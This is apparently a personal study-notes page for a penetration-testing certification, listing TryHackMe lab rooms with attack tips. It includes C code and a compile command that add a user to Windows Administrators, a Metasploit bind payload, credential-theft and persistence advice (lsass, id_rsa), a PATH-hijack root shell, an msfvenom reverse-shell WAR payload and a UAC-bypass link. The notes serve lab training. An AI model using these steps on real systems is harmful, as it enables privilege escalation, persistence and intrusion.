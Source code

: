 ### THM
- [Bolt](https://tryhackme.com/r/room/bolt)
- [Ice](https://tryhackme.com/r/room/ice)
- [Internal](https://tryhackme.com/r/room/internal)
- [blog](https://tryhackme.com/r/room/blog)
- [post-Exploitation](https://tryhackme.com/r/room/postexploit)
- [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)
	- Instead, I chose to create an executable that will add the tyler user to the Administrators local group.
	- Writing a very simple C code that does this.
	
	`#include <stdlib.h>`  
	`int main() {` 
		`system("cmd.exe /c net localgroup Administrators tyler /add");` 
		`return 0;` 
	`}`
	- Now Compiling it into an executable for Windows.
		x86_64-w64-mingw32-gcc-win32  payload.c -o payload.exe   

- [Windows PrivSec Aena](https://tryhackme.com/r/room/windowsprivescarena) 
- [Windows Privsec](https://tryhackme.com/r/room/windows10privesc)
- [blaster](https://tryhackme.com/r/room/blaster)
	- https://github.com/nobodyatall648/CVE-2019-1388 -- Bypass UAC


## Notes
- https://github.com/y3t1sec/ejpt_study_notes


### Tips
- for badblue 2.7 
	- set PAYLOAD windows/meterpreter/bind_tcp
- Always migrate to explorer.exe or lsass 
	- ps -S lsass.exe
- always look for .ssh/id_rsa for persistence access
- cross check internal Ips with nmap (only if possible to transfer nmap binary)
- 10.10.10.10/wordpress/wp-content/themes/twentytwenty/404.php
- if a file have 'cat /root/something', you can 
	- which cat
	- cd /tmp/
	- echo '/bin/bash' > cat
	- chmod +x cat
	- echo $PATH
	- if /tmp not there
		- export PATH=/tmp:$PATH

- msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
- 